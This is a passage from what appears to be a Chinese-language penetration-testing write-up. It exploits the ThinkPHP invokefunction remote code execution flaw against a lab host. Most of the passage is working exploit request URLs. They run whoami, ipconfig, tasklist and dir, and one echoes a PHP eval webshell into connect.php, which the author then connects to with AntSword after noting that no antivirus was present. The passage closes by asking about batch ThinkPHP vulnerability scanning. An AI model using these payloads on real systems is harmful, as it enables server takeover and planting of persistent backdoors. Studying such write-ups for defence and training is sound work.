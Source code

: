 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRqHGibCO77Tbpib9AANNmYa1VrbdrKlMrvIibx7FL5ksmYFgZGPzv2cHZA/640?wx_fmt=png)

传参看一下当前权限为 administrator

```
192.168.10.25/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRXg7L3QBuyf6k7nYgcIuvSxia5303ic1oiccrQ1tjLGxkkUggUvibyJjpZg/640?wx_fmt=png)

看一下 ip 情况，双网卡，那么大概率有域环境

```
192.168.10.25/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ipconfig
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRWt9gWbFtR3WA9ex9d5cksa5ryEvhLwlclCu7zhicKOl54kGlicyibj2SA/640?wx_fmt=png)

看一下进程，发现无杀软那么尝试不用免杀直接写 webshell

```
192.168.10.25/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=tasklist /svc
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRaQiatGshulcVbP1ic9PMhbsibSBhiaWnzR60RFYnib77DMJRlSkDx3BFq5Q/640?wx_fmt=png)

这里直接尝试 echo 写一个一句话木马进去，这里因为之前查看过没有杀软跟安全狗，这里就不需要做免杀处理

```
192.168.10.25/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[cmd]);?>" > connect.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvR3YUuuZzxCQiaMhZRI6dNONVUjkRtceSqdmhUk3iaqQZslicOGP4Ys6Bhw/640?wx_fmt=png)

这里用 dir 验证一下是否写入成功

```
192.168.10.25/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRDXDBcF5U0P2fm40TSF1Yd4ufklkvRd5w4lFDTGhwU0QbTGw63HQ0iaA/640?wx_fmt=png)

使用蚁剑连接成功

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRfO6iakCtsDPjU6lGVdWQ8NrINjBMzsKAXLoA5CQkVRnYytMsBu4Aclw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRmFcIAJtwy06WiaBhbticibYYcvAXwvZz3zw9HEIfVSiaAXvY1ehUC2yKRA/640?wx_fmt=png)

**thinkphp 批量检测**
-----------------

这里我思考了一个问题，thinkphp 的版本这么多，如果 kali 里面的漏洞库没有，而在搜索引擎上去搜索又太耗费时间，有没有一个批量检测 thinkphp 漏洞的脚本呢？
